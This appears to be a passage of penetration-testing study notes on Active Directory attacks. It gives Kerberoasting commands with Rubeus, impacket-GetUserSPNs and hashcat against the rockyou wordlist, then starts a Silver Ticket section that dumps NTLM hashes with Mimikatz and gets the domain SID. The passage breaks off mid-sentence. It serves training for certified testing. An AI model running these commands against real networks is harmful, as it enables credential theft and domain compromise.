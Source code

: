 ```{=html}
<!-- -->
```
-   .\\Rubeus.exe kerberoast /outfile:hashes.kerberoast #dumping from
    > compromised windows host

```{=html}
<!-- -->
```
-   impacket-GetUserSPNs -dc-ip \<DC-IP\> \<domain\>/\<user\>:\<pass\>
    > -request #from kali machine

```{=html}
<!-- -->
```
-   hashcat -m 13100 hashes.txt wordlist.txt \--force \# cracking hashes

-   sudo hashcat -m 13100 GetUserSPNs.out
    > /usr/share/wordlists/rockyou.txt -r
    > /usr/share/hashcat/rules/best64.rule \--force

-   

-   

[[https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/active-writeup-w-o-metasploit]{.underline}](https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/active-writeup-w-o-metasploit)

## Silver Tickets

Check current user has no access to the resource of the HTTP SPN mapped
to *iis_service*. To do so, we\'ll use
**iwr**[^[4]{.underline}^](https://portal.offsec.com/courses/pen-200-44065/learning/attacking-active-directory-authentication-46102/performing-attacks-on-active-directory-authentication-46172/silver-tickets-46109#fn-local_id_280-4)
and enter **-UseDefaultCredentials** so that the credentials of the
current user are used to send the web request.

iwr -UseDefaultCredentials [[http://web04]{.underline}](http://web04)

![](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image4.png){width="6.5in"
height="3.4027777777777777in"}

#Obtaining hash of an SPN user using Mimikatz

privilege::debug

sekurlsa::logonpasswords #obtain NTLM hash of the SPN account here

#Obtaining Domain SID

ps\> whoami /user

![](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image29.png){width="5.520833333333333in"
height="1.75in"}

\# this gives SID of the user that we\'re logged in as. If the user SID
is \"S-1-5-21-198737
